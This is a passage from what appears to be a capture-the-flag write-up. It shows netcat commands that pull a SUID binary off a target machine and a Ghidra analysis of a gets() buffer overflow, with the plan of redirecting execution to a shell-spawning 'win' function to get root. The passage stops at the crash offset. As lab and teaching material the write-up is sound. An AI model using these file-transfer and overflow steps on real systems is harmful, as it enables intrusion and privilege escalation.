 ```bash
nc -lvnp 8080 < /ret # run on victim
```

```bash
nc <target_ip> 8080 > ./ret # run on attacker machine
```

## Reverse engineering - Ghidra ("ret" binary)

- The main function simply executes a function called `vuln`
- We can see that the `vuln` function is using `gets` (a vulnerable function to buffer-overflow attacks) to get user input
- The variable that the user-input is saved into has been allocated a total of 128 Bytes  
    ![f6013addeb5103bdd80d0f346e5cb3b7.png](./_resources/f6013addeb5103bdd80d0f346e5cb3b7.png)
- We can also see another function called `win` which executes a shell for us  
    ![10ae76777b7a7797038a4fa1af2ca7cf.png](./_resources/10ae76777b7a7797038a4fa1af2ca7cf.png)
- So if we are able to overflow the binary and replace the return address of the vuln function (normaly `main`) with `win`, we can execute a shell and get ROOT access to the container since the binary has the SUID bit set.

## Buffer-overflow - rooting the container

- Testing the binary shows that it crashes if the input is 136 Bytes long  